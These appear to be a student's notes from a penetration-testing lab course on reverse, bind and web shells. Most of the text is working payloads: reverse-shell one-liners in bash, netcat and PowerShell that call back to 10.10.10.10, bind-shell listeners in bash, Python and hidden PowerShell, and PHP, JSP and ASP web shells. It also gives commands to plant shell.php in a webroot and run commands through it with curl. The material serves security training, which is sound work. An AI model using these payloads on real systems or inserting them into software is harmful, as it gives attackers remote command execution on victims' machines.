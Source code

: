 |Type of Shell|Method of Communication|
|---|---|
|`Reverse Shell`|Connects back to our system and gives us control through a reverse connection.|
|`Bind Shell`|Waits for us to connect to it and gives us control once we do.|
|`Web Shell`|Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.|

### reverse shell
- we will tells target machine to connect to attacker machine

```bash
nc -lvnp 1234
```

|Flag|Description|
|---|---|
|`-l`|Listen mode, to wait for a connection to connect to us.|
|`-v`|Verbose mode, so that we know when we receive a connection.|
|`-n`|Disable DNS resolution and only connect from/to IPs, to speed up the connection.|
|`-p 1234`|Port number `netcat` is listening on, and the reverse connection should be sent to.|
#### Reverse Shell Command
- The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) page has a comprehensive list of reverse shell commands

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Bind Shell
- attacker need to connect to the target

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/
```


```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port.
```bash
nc 10.10.10.1 1234
```

#### Upgrading TTY
- we cannot move the text cursor left or right to edit our commands
- we can do it by upgrade tty
- there are multiple methods to do that we will see using python

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

```shell-session
www-data@remotehost$ ^Z

CaraxesL@htb[/htb]$ stty raw -echo
CaraxesL@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.


maximize the windows or use any size we want, and then input the following commands to get our variables:

```shell-session
echo $TERM

stty size

export TERM=xterm-256color

stty row 67 columns 318
```

after this our shell can use all the functionality of a shell

### Web Shell
- web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


http://SERVER_IP:PORT/shell.php?cmd=id
![[getting started/image 1.png]]
